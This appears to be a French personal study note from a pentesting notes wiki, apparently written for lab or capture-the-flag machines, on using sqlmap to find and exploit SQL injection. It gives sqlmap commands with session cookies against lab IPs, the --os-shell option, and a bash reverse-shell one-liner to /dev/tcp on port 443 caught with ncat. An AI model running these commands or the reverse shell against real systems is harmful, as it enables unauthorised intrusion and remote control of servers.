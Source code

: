 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](index.md)</sub>
#sqlmap

SQLMAP => detect et exploit sql injection flaws (défauts)
  ex sqlmap -u *URL*?*PARAM*=any+query' --cookie="*COOKIE*" =>
      sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1
  Si ça ramène => GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
  c'est bon signe
  du coup relancer sqlmap en ajoutant --os-sql
  ex : sqlmap -u 'http://10.129.49.29/dashboard.php?search=any+query' --cookie="PHPSESSID=mf6oqmf27iko13aj0o5n2a11hv" --os-shell
  PAR CONTRE CE N EST PAS stable (time out)
  pour avoir une console stable => écouter le port 443 avec ncat puis envoyer en commande dans sqlmap =>
  bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1" et PAF on a l accès sur ncat
